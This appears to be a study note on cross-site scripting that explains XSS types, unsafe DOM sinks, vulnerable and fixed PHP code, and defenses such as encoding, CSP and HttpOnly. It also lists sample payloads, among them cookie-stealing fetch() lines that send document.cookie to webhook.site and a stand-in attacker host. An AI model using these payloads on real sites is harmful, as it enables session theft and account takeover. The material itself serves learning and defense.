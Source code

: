# 09 - Cross-Site Scripting (XSS)

## Introduction
- Cross-Site Scripting (XSS) is a client-side code injection vulnerability where attackers cause a victim's browser to execute malicious JavaScript by injecting payloads into web pages (forums, comments, messaging, search bars, etc.).

## Effects of XSS
- Session cookie theft (account takeover).
- Leakage of sensitive data (forms, tokens, page content).
- Unauthorized actions (use victim permissions to change data, add admins).
- Defacement or content manipulation (social-engineering vectors).
- Can be chained into other attacks (CSRF, session hijacking).

## XSS Types (high-level)
- Reflected (non-persistent): payload is sent in a request and reflected in the response (usually via URL). Requires victim to click a crafted link.
- Stored (persistent): payload is saved on the server (DB/logs) and executed whenever other users view the stored content.
- DOM-based: client-side JS manipulates the DOM insecurely (e.g., innerHTML, eval) and executes payloads without server-side reflection.
- Blind XSS: variant of Stored XSS where payload triggers in admin/backend contexts (logs, admin panels) and the attacker only learns when triggered.

## Key concepts & primitives
- DOM: the client-side tree representation of the page that JS manipulates. Unsafe DOM sinks include `innerHTML`, `document.write`, `eval`, `setTimeout` with strings, etc.
- Payload: the malicious snippet (e.g., `<script>alert(1)</script>` or event attributes, SVG, onerror). Payloads are tailored to context (HTML, attributes, JS, URL, CSS).
- CSP (Content Security Policy): restricts script sources (e.g., `Content-Security-Policy: script-src 'self' https://apis.example.com`). A useful mitigation when configured strictly.

## Common JS functions/objects used in attacks
- `alert()`, `prompt()`, `confirm()` — simple proof-of-concept payloads.
- `eval()` — executes strings as code (dangerous when fed user input).
- `fetch()` / `XMLHttpRequest` — exfiltrate data (cookies, tokens) to attacker-controlled endpoints.
- `document.cookie`, `localStorage`, `sessionStorage` — read session/credential material.

## Typical HTML vectors
- `<script>...</script>`, `<img src=x onerror=...>`, `<iframe>`, `<svg onload=...>`, unclosed tags that allow injection into attributes or scripts.

## Examples (conceptual)
- Reflected URL example: `https://example.com/home?search=<script>alert(1)</script>` — server reflects `search` parameter into page without encoding.
- Stored XSS: user-submitted `message=<script>fetch('https://webhook.../?data='+document.cookie)</script>` gets stored and runs whenever the message is viewed.
- DOM XSS (unsafe sink): `document.getElementById('output').innerHTML = window.location.hash.substring(1);` with `https://site/#<script>alert(1)</script>`.

## Vulnerable code patterns & fixes (PHP examples from source)
- Vulnerable pattern (direct output):
	- echo '<div>No Result Found for <b>' . $q . '</b></div>'
- Safe pattern (output encoding):
	- echo '<div>No Result Found for <b>' . htmlspecialchars($q, ENT_QUOTES, 'UTF-8') . '</b></div>'
- For JS insertion, encode/validate values before echoing into scripts; consider JSON-encoding values and using safe DOM APIs rather than `innerHTML`.

## Blind XSS & HTTP header XSS
- Blind XSS: payloads stored in logs, tickets, or profiles that execute when viewed by admins. Target high-privilege viewers.
- HTTP header XSS: headers like `User-Agent`, `Referer`, `X-Forwarded-For` can carry payloads; if logged and rendered in admin UI without encoding, they execute.

## Session hijacking notes
- XSS can steal `document.cookie` or tokens (localStorage) and send them to attacker servers (e.g., `fetch('https://attacker/?c='+document.cookie)`).
- HttpOnly cookies mitigate `document.cookie` reads; however, other leaks (endpoints that return session data, localStorage) can make HttpOnly insufficient if the app exposes session values.

## Common payloads (examples for testing)
- Proof-of-concept: `<script>alert('XSS')</script>`
- Cookie theft: `<script>fetch('https://webhook.site/ID?c='+document.cookie)</script>`
- Event-based: `<img src=x onerror=alert(1)>`, `<svg onload=alert(1)>`
- Attribute and broken-tag tricks: `"><script>alert(1)</script>`

## Detection & testing tools
- XSStrike — fuzzing + DOM testing (https://github.com/s0md3v/XSStrike).
- XSSCon — lightweight scanner (https://github.com/menkrep1337/XSSCon).
- BeEF — Browser Exploitation Framework for post-exploitation control of hooked browsers (https://github.com/beefproject/beef).
- Use Burp, automated payload lists (PayloadsAllTheThings / SecLists) and manual context-aware testing.

## HttpOnly flag and bypass considerations
- `HttpOnly` prevents JS from reading cookies via `document.cookie` but does not stop other exfiltration methods if the app exposes session IDs in responses or localStorage.
- Examples of indirect leakage: endpoints returning session info, `phpinfo()` pages, or accessible APIs that include session values — these can be fetched and exfiltrated by injected JS.

## Mitigations / defense checklist
- Output encoding: use context-aware encoding (HTML-escape for HTML, JS-encode for JS contexts, attribute-encode for attributes).
- Input validation: validate input by type/shape; do not rely on validation alone for XSS defense.
- Use `htmlspecialchars()` (PHP) or equivalent templating/escaping functions.
- CSP: implement strict Content-Security-Policy (`script-src 'self'` + nonces/hashes) where possible.
- Set cookies with `HttpOnly` and `Secure`, and consider `SameSite`.
- Avoid `innerHTML`, `eval`, `document.write` with user data; use safe DOM APIs (textContent, setAttribute) and JSON-encoding for data inserted into scripts.
- Logging/display controls: encode log/headers when rendered in admin dashboards.
- Monitor and alert on unusual payload patterns; reduce attack surface (limit where HTML/JS can be inserted).

## Practical notes / workflow
1. Start with passive discovery and parameter inspection. 2. Use automated scanners (XSStrike/XSSCon) then manual verify with context-aware payloads. 3. For stored/blind XSS target admin views and logs. 4. When testing exfiltration demos, use controlled endpoints (webhook.site) and get authorization.

## References / payload lists
- PayloadsAllTheThings XSS, SecLists XSS fuzzing lists, PayloadBox, AwesomeXSS (links provided in original text).


